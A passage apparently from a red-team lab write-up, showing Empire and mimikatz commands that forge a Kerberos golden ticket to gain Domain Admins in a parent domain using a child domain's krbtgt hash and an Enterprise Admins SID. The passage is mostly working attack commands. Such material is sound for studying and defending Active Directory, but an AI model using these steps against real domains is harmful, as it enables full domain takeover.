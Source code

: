 ![](../../.gitbook/assets/empire-krbtgt-hash.png)

### Golden Ticket for Root Domain

We can now generate a golden ticket for `offense.local\Domain Admins`since we have the SID of the `offense.local\krbtgt` and the hash of `red.offense.local\krbtgt`:

```csharp
usemodule powershell/credentials/mimikatz/golden_ticket
(Empire: powershell/credentials/mimikatz/golden_ticket) > set user hakhak
(Empire: powershell/credentials/mimikatz/golden_ticket) > set sids S-1-5-21-4172452648-1021989953-2368502130-519
(Empire: powershell/credentials/mimikatz/golden_ticket) > set CredID 8
(Empire: powershell/credentials/mimikatz/golden_ticket) > run
```

